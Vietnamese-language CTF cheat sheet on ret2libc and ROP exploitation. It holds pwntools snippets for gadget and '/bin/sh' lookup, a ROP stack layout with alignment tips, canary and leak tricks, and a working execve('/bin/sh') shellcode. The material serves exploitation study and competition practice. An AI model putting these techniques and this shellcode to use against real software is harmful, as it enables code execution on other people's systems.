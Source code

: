 # Ret2LIBC-ROP

## [0] Overview:
- pwntools '/bin/sh':
```python
next(libc.search(b'/bin/sh'))
```
- pwntools `flat()` điền byte là p64() hoặc p32() theo cấu trúc chương trình là x86 hay x86_64, VD:`[convert - ASCIS 2022]` .
- [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
- Để ý một số bài có thể sử dụng one_gadget kết hợp với đối số của các hàm bị ghi đè khi gọi tới.
- Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
    * VD: `syscall ; ret` [dicectf 2023 - bop].
    * gadget push rax;ret
    * jmp rsp
    * ...
```python
import pwn
rop = pwn.ROP(libc, base=<address_overwrite>)
rop.call(rop.find_gadget(["syscall", "ret"]))
print(rop.dump())
```
- Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
```
STACK:
1. địa chỉ lệnh "ret"
2. địa chỉ lệnh "pop rdi, ret"
3. địa chỉ lưu chuỗi 
4. địa chỉ hàm gets

5. địa chỉ lệnh "ret"
6. địa chỉ lệnh "pop rdi, ret"
7. địa chỉ muốn được in (đọc chuỗi)
8. địa chỉ hàm printf 
# leak = printf thì sau printf lại phải dùng ret
9. địa chỉ lệnh "ret"
10. địa chỉ nào đó muốn return về.
```
- Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, -, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF .
- Leak được LIBC thì có thể leak được stack thông qua biến environ trong LIBC.
- Viết sheelcode cần set context.binary

```python
...
elf = ELF('./vuln')
context.binary = elf
p = elf.process()
...

shellcode = asm('''
        instruction assembly
        ...
''')

OR

context.arch = 'amd64'
shellcode = asm(
    f'''
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    xor rsi, rsi
    xor rax, rax
    add al, 0x3b
    syscall
    ''')
```

- `Chall pwn07 - whitehat`: Dùng dup2(0, 1) để mở lại stdout, leak giá trị.

## [1] Technique:
- [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
- [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
- BRUTEFORCE - `TWOSHOT - KMACTF2022`
- ...

